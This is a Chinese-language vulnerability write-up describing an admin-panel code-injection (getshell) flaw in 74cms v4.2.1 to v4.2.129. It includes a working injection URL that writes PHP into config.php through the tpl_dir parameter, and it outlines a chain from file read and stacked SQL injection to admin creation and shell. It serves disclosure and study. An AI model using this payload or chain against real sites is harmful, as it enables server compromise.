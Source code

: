 # 74cms v4.2.1 - v4.2.129-后台getshell漏洞

## 0x00 前言
厂商：74cms

下载地址：http://www.74cms.com/download/index.html

关于版本：

新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

## 0x01 74cms升级到最新版
1， 先去官网下载 骑士人才系统基础版(安装包)

2， 将下载好的包进行安装

3， 进入后台点击查看如果不是最新版的话，请点击升级！

4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决

5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php

6， 查找所有$_SERVER['HTTP_HOST'] 改为 http://baidu.com 即可

## 0x02 漏洞演示
![image](images/img6.png)

```html
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
```

```html
shell:http://74cms.test/Application/Home/Conf/config.php
路径：\74cms\upload\Application\Home\Conf\config.php
```

![image](images/img7.png)

![image](images/img8.png)

## 0x03 漏洞原理
```html
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
路径：74cms\upload\Application\Admin\Controller\TplController.class.php
```

![image](images/img9.png)

```html
路径： 74cms\upload\Application\Common\Controller\BackendController.class.php
```

![image](images/img10.png)

## 0x04 题外话-认真版getshell方法
认真版getshell方法：

实际上想要进行getshell利用组合漏洞是很简单的事情。我的前台日到后台的getshell方法是这样的。

首先利用-任意文件读取漏洞-读取系统中的hash值

然后在通过漏洞-前台sql注入-来插入用户数据-因为我发现他可以支持执行双语句所以可以执行mysql双语句插入一条管理员用户

在通过这个后台getshell漏洞

即可完成一套日穿

## 四、参考链接
https://www.yuque.com/pmiaowu/bfgkkh/wecilm
